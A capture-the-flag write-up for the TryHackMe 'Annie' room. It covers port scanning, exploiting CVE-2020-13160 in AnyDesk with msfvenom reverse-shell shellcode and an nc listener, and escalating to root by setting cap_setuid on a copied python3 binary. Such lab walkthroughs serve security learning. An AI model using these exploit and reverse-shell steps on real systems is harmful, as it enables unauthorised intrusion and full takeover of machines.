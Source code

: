 ## Annie CTF - [room](https://tryhackme.com/room/annie)

First we will start the machine, and grab the ip:
  - 10.10.76.15

`sudo nmap -v -sV -sC -oN nmap.log 10.10.76.15 -p- | grep open `

**Output**:
```shell
Discovered open port 22/tcp on 10.10.76.15
Discovered open port 33797/tcp on 10.10.76.15
Discovered open port 7070/tcp on 10.10.76.15
22/tcp    open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
7070/tcp  open  realserver?
33797/tcp open  unknown
```
`sudo nmap -v -sV -sC -oN nmap.txt 10.10.76.15 -p 22,7070`

**Output**:
```
PORT      STATE  SERVICE         VERSION
22/tcp    open   ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:d7:25:34:e8:07:b7:d9:6f:ba:d6:98:1a:a3:17:db (RSA)
|   256 72:10:26:ce:5c:53:08:4b:61:83:f8:7a:d1:9e:9b:86 (ECDSA)
|_  256 d1:0e:6d:a8:4e:8e:20:ce:1f:00:32:c1:44:8d:fe:4e (ED25519)
7070/tcp  open   ssl/realserver?
| ssl-cert: Subject: commonName=AnyDesk Client
| Not valid before: 2022-03-23T20:04:30
|_Not valid after:  2072-03-10T20:04:30
|_ssl-date: TLS randomness does not represent time
```

Making some research about anydesk client we know that anydesk use port range 50001-50003
so scanning that ports we know that port 50001 is open, and searching for anydesk CVE/Vulns we found

### CVE-2020-13160 - [Link](https://www.exploit-db.com/exploits/49613)

Now changing the ip in `ip = $ip`

![screenshot](https://github.com/SnowyYT07/TryhackmeCTFs/Annie/screenshot.png)

and changing that shellcode with
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=*thm ip* LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode`

we just need to set our listener and run the py script
`nc -lvnp 4444`

IN ANOTHER SHELL:

`python2 49613.py`


### RCE TIME

Now we have a user perm shell doing
cat user.txt we get

THM{[REDECTED]}

now u have to explore for privesc
with
`find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;`

we can find binary with SUID perm
lets use the /sbin/setcap so..

`cp /usr/bin/python3 /home/annie/python3`

`setcap cap_setuid+ep /home/annie/python3`

`./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

now we got root and:

`cat /root/root.txt`
and we get 
`THM{[REDECTED]}`
